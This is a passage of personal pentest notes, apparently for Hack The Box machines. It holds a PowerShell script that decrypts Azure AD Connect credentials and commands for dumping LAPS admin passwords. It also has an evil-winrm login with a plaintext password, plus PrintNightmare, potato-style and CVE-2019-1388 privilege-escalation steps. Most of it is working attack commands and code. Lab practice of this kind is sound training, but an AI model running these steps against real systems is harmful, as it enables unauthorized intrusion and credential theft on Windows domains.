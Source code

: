 add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
- save as .ps1 (currently saved in ~/HTB/monteverde/poc.ps1) and upload to shell and run `.\poc.ps1` to get administrator password


LAPS
see *ReadLAPSPassword* in bloodhound but no foothold/shell, use nxc:
```
nxc ldap 192.168.199.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.199.122 -M laps
```

`net user svc_deploy` shows "LAPS_Readers" or something similar to imply LAPS is happening
```
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
- ms-mcs-admpwd property shows the local admin password for the box
- `evil-winrm -i 10.129.98.245 -S -u administrator -p 'l2H.h7Ao4m04tk7z+0v5LB.['`
	- root flag will actually be in a different static directory on the box instead of admin because the admin user wont have a static password to confirm flag


`whoami` shows nt authority\local service, use `.\FullPowers.exe` to grant yourself SeImpersonatePrivilege and then run printspoofer/potato exploit


PrintNightmare
- copy CVE-2021-1675.ps1 to target and type command `Invoke-Nightmare`
	- creates admin user on machine `adm1n:P@ssw0rd`


CVE-2019-1388 "Windows Certificate Dialog Elevation of Privilege"
- requries windows GUI (RDP)
1) find a program that can trigger the UAC prompt screen. run it
2) select "Show more details"
3) select "Show information about the publisher's certificate"
4) click on the "Issued by" URL link it will prompt a browser interface. Select Internet Explorer
5) wait for the site to be fully loaded (even if fails to load) & select "save as" to prompt a explorer window for "save as".
6) on the explorer window address path, enter the cmd.exe full path:
	- C:\WINDOWS\system32\cmd.exe
7) now you'll have an escalated privileges command prompt. 
- [https://github.com/nobodyatall648/CVE-2019-1388?tab=readme-ov-file](https://github.com/nobodyatall648/CVE-2019-1388?tab=readme-ov-file)
- [CVE-2019-1388: abuse UAC Windows Certificate Dialog (Windows Local Privilege Escalation)](https://www.youtube.com/watch?v=RW5l6dQ8H-8)

```